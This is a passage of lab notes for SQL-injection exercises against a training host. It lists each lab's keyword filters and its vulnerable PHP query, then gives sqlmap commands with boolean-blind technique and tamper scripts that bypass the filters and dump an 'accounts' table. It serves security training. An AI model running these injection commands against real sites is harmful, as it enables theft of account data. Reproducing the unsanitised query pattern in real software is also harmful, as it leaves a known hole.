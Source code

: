 ```bash

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you04 -T accounts --dump

```



### 5 - Boolean-based blind
* UNION filtered out
* symboliclogical filter (AND > && , OR > ||)

```bash
Filters:
/UNION/i
/\ AND\ /i
/\ OR\ /i

Query;
$query = "SELECT views FROM attachments where filename='$entry';";


POCs:
# same as #4 but with filter that applies to OR too 
# (%7C) == |

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you05 -T accounts --dump 

```




### 6 - Boolean-based blind
* UNION filtered out
* symboliclogical filter (AND > && , OR > ||)
* space to verical tab filter to bypass [space]OR filter

```bash
Filters:
/UNION/i
/AND/i
/ OR/i

Query;
$query = "SELECT views FROM attachments where filename='$entry';";

# SQLMAP

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' --tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=10 -v 3 \
	--banner --flush-session 
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=5 -v 3 \
```
